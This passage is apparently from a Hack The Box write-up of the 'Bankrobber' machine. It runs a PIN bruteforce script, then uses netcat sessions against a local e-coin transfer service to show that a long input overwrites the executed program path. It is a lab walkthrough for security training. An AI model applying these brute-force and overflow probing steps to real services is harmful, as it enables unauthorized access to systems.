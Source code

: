 ```bash
python3 bruteforce.py
```

![[Bankrobber-32.png]]

And we will found pin 0021.

### Overflow

Now with the pin, I can look at the rest of the app:

```bash
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Bankrobber]
└─$ nc localhost 910
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] 1234
 [$] Transfering $1234 using our e-coin transfer application. 
 [$] Executing e-coin transfer tool: C:\Users\admin\Documents\transfer.exe

 [$] Transaction in progress, you can safely disconnect...
                                                                                                                                                                                
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Bankrobber]
└─$ nc localhost 910
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaAAAAAA
 [$] Transfering $AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaAAAAAA using our e-coin transfer application. 
 [$] Executing e-coin transfer tool: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaAAAAAA

 [$] Transaction in progress, you can safely disconnect...
                                                           
```

When I enter a long string, I notice something weird:
